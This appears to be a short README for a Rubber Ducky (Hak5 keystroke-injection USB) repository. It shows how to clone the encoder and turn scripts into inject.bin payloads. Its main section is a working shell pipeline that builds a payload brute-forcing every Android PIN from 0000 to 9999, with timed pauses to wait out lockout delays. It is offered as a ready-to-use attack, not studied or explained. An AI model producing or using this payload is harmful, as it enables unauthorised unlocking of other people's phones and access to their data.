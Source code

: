 # Install

```
git clone https://github.com/jbarcia/ducky && cd ducky
```
```
chmod a+rx /Volumes/USB-Blanca/Hak5/RubberDucky/ducky/duckencode.jar
```
# Create and Copy Payload in to Rubber Ducky 
```
java -jar /Volumes/USB-Blanca/Hak5/RubberDucky/ducky/duckencode.jar -i helloworld.txt -o /Volumes/RubberDucky/inject.bin
```

# Android Payload 

```
port install gsed
```
## Create Dictionary 
``` 
echo DELAY 5000 > android_brute-force_0000-9999.txt; echo {0000..9999} | xargs -n 1 echo STRING | gsed '0~5 s/$/\nWAIT/g' | gsed '0~1 s/$/\nDELAY 1000\nENTER\nENTER/g' | gsed 's/WAIT/DELAY 5000\nENTER\nDELAY 5000\nENTER\nDELAY 5000\nENTER\nDELAY 5000\nENTER/g' >> android_brute-force_0000-9999.txt
```

## Copy Payload in Rubber Ducky
``` 
java -jar /Volumes/USB-Blanca/Hak5/RubberDucky/ducky/duckencode.jar -i android_brute-force_0000-9999.txt -o /Volumes/RubberDucky/inject.bin
``` 
